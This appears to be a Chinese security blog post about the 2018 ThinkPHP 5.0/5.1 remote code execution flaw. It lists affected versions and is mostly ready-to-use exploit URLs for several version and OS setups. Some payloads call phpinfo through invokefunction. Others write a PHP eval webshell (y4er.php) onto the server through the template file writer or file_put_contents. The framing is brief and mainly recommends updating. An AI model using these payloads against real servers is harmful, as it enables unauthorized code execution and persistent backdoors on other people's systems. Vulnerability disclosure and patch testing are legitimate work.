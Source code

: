 ```yaml
---
title: "Thinkphp5.x远程代码执行"
date: 2018-12-09T20:02:07+08:00
lastmod: 2018-12-091T20:02:07+08:00
draft: false
tags: ['thinkphp','rce','php']
categories: ['Vulnerability']
comment: true
---
```


12月9日thinkphp官方发布安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括`5.0`和`5.1`版本，推荐尽快更新到最新版本。

<!--more-->

# 影响范围

5.x < 5.1.31

5.x < 5.0.23
# PoC
## win+thinkphp5.1.24

执行phpinfo()，**要求php版本>=7.0**



```php
/index.php/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```


![](https://y4er.com/img/uploads/20190509169823.jpg)



写shell

```html
/index.php/?s=index/\think\template\driver\file/write&cacheFile=y4er.php&content=<?php @eval($_POST[x]);?>
```


http://127.0.0.1/public/y4er.php   x



## debian+thinkphp5.1.30

执行phpinfo()，**要求php版本>=7.0**
```php
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```


![](https://image.3001.net/images/20181213/1544649324_5c117a6c9b89f.png)



写一句话木马



```html
/index.php/?s=index/\think\template\driver\file/write&cacheFile=y4er.php&content=<?php @eval($_POST[x]);?>
```

## win+thinkphp5.0.16

执行phpinfo()，**要求php版本>=7.0**



```php
/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```


![](https://image.3001.net/images/20181213/1544649374_5c117a9ea54f4.png)



写一句话木马

```html
/index.php/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=y4er.php&vars[1][]=<?php @eval($_POST[x]);?>
```
